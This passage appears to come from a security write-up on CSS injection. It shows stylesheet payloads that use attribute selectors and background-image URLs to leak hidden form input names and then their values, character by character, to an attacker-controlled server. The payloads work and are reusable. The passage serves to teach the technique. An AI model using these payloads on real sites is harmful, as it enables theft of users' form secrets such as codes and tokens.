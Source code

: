 Got callback with a **/louzogh/exfil/code_** path, ok let's continue :

![cf_array](./images/code_underscore-2020-06-1106_29_23.png)

By continuing this process, we want full name in the tag : 

```
input[name^=code_1] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_1);
}
input[name^=code_2] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_2);
}
input[name^=code_a] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_a);
}
input[name^=code_b] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_b);
}
input[name^=code_c] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_c);
}
....
```

We got 7 callbacks with : 
- /louzogh/exfil/code_1
- /louzogh/exfil/code_2
- /louzogh/exfil/code_3
- /louzogh/exfil/code_4
- /louzogh/exfil/code_5
- /louzogh/exfil/code_6
- /louzogh/exfil/code_7

**Hell Yeah ! We have the exact full name of this 7 inputs !**  
Now, we just want this 7 inputs values, i generate a CSS stylesheet with characters wordlist for each name value:  

```
input[name=code_1][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_1/%s);
}
input[name=code_2][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_2/%s);
}
input[name=code_3][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_3/%s);
}
input[name=code_4][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_4/%s);
}
input[name=code_5][value^=%s]{
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_5/%s);
}
input[name=code_6][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_6/%s);
}
input[name=code_7][value^=%s] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_7/%s);
}
```  
